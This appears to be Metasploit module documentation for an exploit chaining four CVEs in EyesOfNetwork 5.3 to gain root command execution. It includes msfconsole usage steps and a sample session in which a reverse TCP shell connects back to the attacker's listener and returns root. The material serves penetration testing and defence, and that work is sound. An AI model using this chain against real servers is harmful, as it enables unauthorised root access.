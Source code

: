 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.3 and prior in order to execute arbitrary commands as root.

The module first exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, it writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This approach achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via two methods, i.e. by generating an API access token based on a hardcoded key, and via SQLI. This module has been successfully tested on EyesOfNetwork 5.3 with API version 2.4.2.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options
1. `SERVER_ADDR`. This option should be set in case the EyesOfNetwork server IP address is different from RHOST. This because the EON server IP is needed to generate the API key.

## Scenarios
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Base path to EyesOfNetwork
   VHOST                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Using generated API key: a496fb1025187066dc1e4e56197bd2db1a23c565f42b98df8ff55698442b6476
[+] Authenticated as user kY7Qn1gr8L
[*] Sending payload (428 bytes) ...
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.1:45897) at 2020-02-19 15:30:31 +0100

id
uid=0(root) gid=0(root) groups=0(root)
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
